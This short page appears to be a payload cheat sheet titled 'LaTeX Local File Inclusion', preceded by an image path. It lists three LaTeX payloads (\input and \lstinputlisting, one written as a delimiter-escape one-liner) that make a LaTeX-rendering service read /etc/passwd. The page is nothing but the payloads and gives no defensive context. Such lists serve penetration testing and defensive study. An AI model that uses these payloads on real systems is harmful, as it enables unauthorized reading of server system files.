 # LaTeX Local File Inclusion

### Payloads:

 - \input{/etc/passwd}

 - \lstinputlisting{/etc/passwd}

 - $/lstinputlisting{/etc/passwd}$ (Delimiter escape. One-liner)
